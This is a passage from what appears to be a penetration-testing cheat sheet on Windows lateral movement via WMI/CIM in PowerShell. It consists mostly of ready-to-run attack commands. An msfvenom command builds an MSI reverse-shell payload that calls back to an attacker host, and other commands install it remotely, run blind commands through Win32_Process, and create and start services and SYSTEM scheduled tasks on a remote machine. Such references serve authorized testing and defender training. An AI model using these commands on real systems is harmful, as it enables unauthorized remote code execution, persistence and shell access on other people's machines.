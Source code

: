 ### 5.2. Reverse shell via MSI packages

```powershell
# Generate MSI reverse shell payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4443 -f msi > "<package-name.msi>"

# Install MSI payload
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "<package-path.msi>"; Options = ""; AllUsers = $false}
```

### 5.3. Command execution (blind)

```powershell
# Execute a command remotely (blind)
$Command = "<cmd-payload>"
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```

### 5.4. Service creation (blind)

```powershell
$ServiceName = "<service-name>"
$Command = "<cmd-payload>"

# Run a service remotely
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
  Name = $ServiceName;
  DisplayName = $ServiceName;
  PathName = $Command;
  ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
  StartMode = "Manual"
}
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '$ServiceName'"
Invoke-CimMethod -InputObject $Service -MethodName StartService

# Stop the service
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### 5.5. Scheduled task creation (blind)

```powershell
$Command = "<cmd-payload>"
$Args = "<payload-args>"
$TaskName = "<task-name>"

# Run a task
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName $TaskName
Start-ScheduledTask -CimSession $Session -TaskName $TaskName

# Stop the task
Unregister-ScheduledTask -CimSession $Session -TaskName $TaskName
```
